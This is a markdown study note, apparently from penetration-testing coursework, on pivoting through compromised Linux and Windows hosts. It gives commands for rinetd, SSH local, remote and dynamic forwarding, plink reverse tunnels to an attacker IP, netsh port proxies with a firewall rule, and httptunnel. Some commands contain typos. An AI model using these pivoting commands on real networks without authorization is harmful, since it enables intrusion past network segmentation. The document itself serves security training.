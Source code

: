 # Port Redirection and Tunneling

> Carry a protocol over a incompatible delivery network or provide a secure route in a untrusted network.

## Port Forwarding

Redirect traffic from one ip and port to another ip and port.

### Scenario

![](20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014201944675.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014201944675.png" alt="image-20201014201944675" width="40%" /> -->

The Linux Web Server is compromised, and we have root previledges. The Linux Client is also compromised and we gain ssh credentials. (i.e. connected to Linux Client via 2 layers of ssh)

The linux client isn't connected to the internet, but connected with the Linux Web Server in internal network.

We now need to transfer data to and from the Linux Client.

**What we can do it redirect traffic to port 80 of the Web Server to the internet. So the Linux Client can connect to internet through the Web Server.**

### RINETD

```bash
sudo apt update && sudo apt install rinetd
sudo leafpad /etc/rinetd.conf
# add the following
# bindaddress bindport    connectaddress 	connectport
0.0.0.0 		80 		216.58.207.142 		   80

sudo service rinetd restart
ss -antp | grep "80"		# port listening on port 80

# from the compromised machine, connect to port 80 of attacker machine
nc -nvv <IP> 80
```

What is does is, when the server machine receives an request on port 80, it's always sent to the destination address and port.

## SSH Tunneling

SSH can create encrypted tunnels within ssh protocol.

### Scenario

![](20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014202648501.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014202648501.png" alt="image-20201014202648501" width="50%" /> -->

There are 3 machines in total. One attacker machine **A**, one compromised machine **B** (the Linux Client) connected to internet with only port 22, 8080, one machine **C** (windows) connected to **B** but only has access to local network.

We want to transfer data.

**B** redirects requests to to **C** via ssh.

### SSH Local Port Forwarding

Tunnel a local port to a remote server.

```bash
sudo ssh -N -L 0.0.0.0:445:<target IP>:445 <username>@<IP>	# run this on attacker machine
# -N: no executing remote command
# -L: port forwarding, then bind port 445 of localhost to port 445 of remote machine
# username and IP are of the compromised machine (medium).
```

Change samba setting, min samba verstion to V2

`min protocol = SMB2` in `/etc/smbda/smb.conf`

List windows shared files

```bash
# on compromise linux client
smbclient -L 127.0.0.1 -U Administrator
```

All traffic on the port should be redirected to the windows machine.

 ### SSH Remote Port Forwarding

![](20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014205345250.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014205345250.png" alt="image-20201014205345250" width="50%" /> -->

Reverse of SSH Local Port Forwarding. 

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]
# example
ssh -N -R <attacker ip>:2221:127.0.0.1:3306 kali@<attacker ip>
```

bind_address is Attacker's IP address. 

-R to open a port (let's say 2221) for listening on the Attacker machine, 

Request to attacker machine's port 2221 will be forwarded to the linux client, and then to the SQL server running on that Linux client.

Check localhost port

```bash
ss -antp | grep "2221"
```

Flow: On attacker machine => send request to 127.0.0.1 port 2221 => request redirected to Linux Client port 3306 through the ssh tunnel.

```bash
# on attacker
sudo nmap -sS -sV 127.0.0.1 -p 2221
```

### SSH Dynamic Port Forwarding

![](20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014211413992.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014211413992.png" alt="image-20201014211413992" width="50%" /> -->

Similar to SSH Local Port Forwarding

No need to create a tunnel for every port or every target ip in the network.

```bash
# on attacker machine
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address> # -D for dynamic port forwarding
```

Redirect any traffic to localhost:8080 to target network.

`<username>@<SSH server address>` are for the compromised linux client.

We need to tell how to run proxy.

```bash
sudo leafpad /etc/proxychains.conf
```

add socks4 proxy to it `socks4 127.0.0.1 8080`

```bash
proxychains nmap --top-ports=20 -sT -Pn <IP>
```



## PLINK.exe

> A windows ssh client

Pivoting on windows machine.

Download the tool with ftp server.

```powershell
cmd.exe /c echo y | plink.exe --ssh -l kali -pw <pwd> -R <attacker ip>:1234:127.0.0.1:3360 <attacker ip>
```

Scan target from attacker

```bash
sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH

Windows based tool.

```powershell
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=<attacker ip> connectpoty=445 connectaddress=<target ip>
```

Open port 4455 for inbound traffic on windows machine with **netsh**

```powershell
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=<attacker ip> localport=4455 action=allow
```

On attacker machine, configure samba to use smb2 as min protocol

```bash
smbclient -L <attacker ip> --port=4455 --user=Administrator
```

## HTTPTunneling Through Deep Packet Inspection

![](20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014233415622.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014233415622.png" alt="image-20201014233415622" width="70%" /> -->

Use HTTP protocol for tunnelling.

`apt-cache search httptunnel`

Use `httptunnel` to encapsulate traffic within http request (http tunnel).

HTTP uses client-server model.

`sudo apt install httptunnel`

```bash
hts --forward-port localhost:8888 1234
htc --forward-port 8080 10.11.0.128:1234
```




















